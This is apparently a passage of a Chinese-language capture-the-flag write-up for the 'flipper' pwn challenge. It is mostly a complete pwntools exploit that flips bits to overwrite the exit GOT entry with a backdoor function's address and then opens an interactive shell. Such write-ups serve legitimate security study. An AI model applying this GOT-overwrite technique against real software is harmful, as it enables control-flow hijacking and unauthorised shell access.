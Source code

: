 有点像格式化字符串里面修改 GOT 表，只不过这次我们得用翻转 Bit 来完成。

如果要将一个 Byte 翻转为我们想要的值，需要把原始数据和目标数据比较，不同的位就翻转一次：

```python
for bit in range(8):
    if original_byte & (1 << bit) != target_byte & (1 << bit):
        flip(original_addr, bit)
```

`flip` 函数拎出来会让程序整洁的多：

```python
def flip(addr: int, bit: int):
    info(f"fliping {hex(addr)} {bit}")
    io.sendlineafter(b"flip?\n", f"{hex(addr)} {bit}".encode())
```

完整 EXP（[exp.py](writeup/exp.py)）：

```python
from pwn import *

context.arch = "amd64"

io = process("./flipper")
elf = ELF("./flipper")


def flip(addr: int, bit: int):
    info(f"fliping {hex(addr)} {bit}")
    io.sendlineafter(b"flip?\n", f"{hex(addr)} {bit}".encode())


# 只读 4 位是偷懒，前面几位都是 0x00
exit_addr_bytes = elf.read(elf.got["exit"], 4)
b4ckdoor_addr_bytes = p32(elf.sym["b4ckdoor"])
info(f"exit_addr_bytes => {exit_addr_bytes.hex()}")
info(f"b4ckdoor_addr_bytes => {b4ckdoor_addr_bytes.hex()}")

# 获得循环
flip(0x004012D9, 7)

# 通过翻转修改 exit 的 GOT 表内容为 b4ckdoor 地址
for i in range(4):
    for bit in range(8):
        if b4ckdoor_addr_bytes[i] & (1 << bit) != exit_addr_bytes[i] & (1 << bit):
            flip(elf.got["exit"] + i, bit)

# 改回去，调用 call exit
flip(0x004012D9, 7)

io.interactive()
```

Hackergame 的做法依旧有效，这题只是在源码基础上加了个后门函数。
